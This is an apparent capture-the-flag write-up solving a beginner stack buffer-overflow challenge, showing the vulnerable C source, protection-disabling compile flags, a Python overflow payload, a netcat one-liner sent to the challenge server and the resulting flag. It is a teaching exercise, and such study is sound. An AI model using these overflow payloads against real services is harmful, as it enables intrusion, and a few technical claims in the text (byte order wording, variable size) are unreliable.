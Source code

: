 This is the first chanllenge in the pwnables category:

The challenge is asking you to connect to `nc pwnable.hackable.ca 9993` that runs an executable that asks you to `Enter your name`, and based on your answer it should give you the correct flag.

The sourcecode of the executable is given in the challenge, (buffer_overflow1.c)


# Solution

1. Analyzing code
2. Compiling the code
3. Crafting our buffer overflow input

## 1. Analyzing code
Looking at the sourcecode we notice that this is an easy buffer overflow example.

1. It creates an integer variable `password` and saves in it the hex value `0xcafebabe`. It also creates a string variable `your_name` of size 100. 

```
int password = 0xcafebabe;
char your_name[100] = {0};
```
2. It prints `Enter your name` and reads the input into the variable `your_name`
```
printf("Enter your name\n");
fflush(stdout);
read(0, your_name, 0x100);
```
3. Then it compares the variable `password` to the value `0xdeadbeef` and if correct it will print the FLAG if not it asks to try again and exits.
```
if(password == 0xdeadbeef) {
    puts("GOOD WORK!\n");
    puts("FLAG{**********************}");
}
else {
    puts("Nice try :( Your name didn't meet my expectations\n");
}
```

>if we make some research about the `read` function in C we find that read() don't work with strings, but with buffers, and as such it doesn't need to know their contents, just their size. As long as it only uses the buffer, there won't be any overrun problems. The problem may come if you later treat that buffer as a string. In that case, you will most probably overrun it.


we also notice that in the `read` function it reads `0x100` bytes which is `256` bytes, however the variable `your_name` is only 100 bytes long. This means that the `read` function can lead to a buffer overflow vulnerability.

## 2. Compiling the code
`gcc buffer_overflow1.c -o buffer_overflow1.exe -fno-stack-protector -z execstack -no-pie`

we use `-fno-stack-protector -z execstack -no-pie` to ensure no stack protection is running so our exploit can run.

## 3. crafting our buffer overflow input
To solve this challenge we need to change the value of the password variable to `0xdeadbeef` to do this we need to use the `read` function to overwrite the stack space of the variable `password`.

The stack has the variable `password` with length 8 bytes on top of it (remember: stack addresses are flipped) the `your_name` variable with length of 100 bytes. So we need to enter 100 bytes then our new password value of `0xdeadbeef`.

```
+++++++++++++++++++++++++++++++++
+           +                   +
+           +                   +
+    100    +    your_name      +
+   bytes   +                   +
+           +                   +
+           +                   +
+++++++++++++++++++++++++++++++++
+    8      +    password       +
+   bytes   +                   +
+++++++++++++++++++++++++++++++++
```

>Note that: the variable `passowrd` is in hex and we read it in Little Indian from right to left.


To craft our malformed input, we use python as follows:
```
print('A'*100+'efbeadde'.decode('hex'))
```
OR:
```
print('A'*100+'\xef\xbe\xad\xde')
```
```
>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
```
>Note: To not get confused with the hex to ASCII conversion, we can just enter the hex value as `\xXX` to python and it will automatically make the conversion for us. The special chars at the end of the crafted string represent the hex value `0xdeadbeef`

By entering this value into the program, it gives the FLAG.

# One line command:
`python -c "print('A'*100+'\xef\xbe\xad\xde')" | nc pwnable.hackable.ca 9993`

OR:

`python -c "print('A'*100+'efbeadde'.decode('hex'))"| nc pwnable.hackable.ca 9993`

#FLAG:
```FLAG{0v3rfl0w5_ar3_fun}```
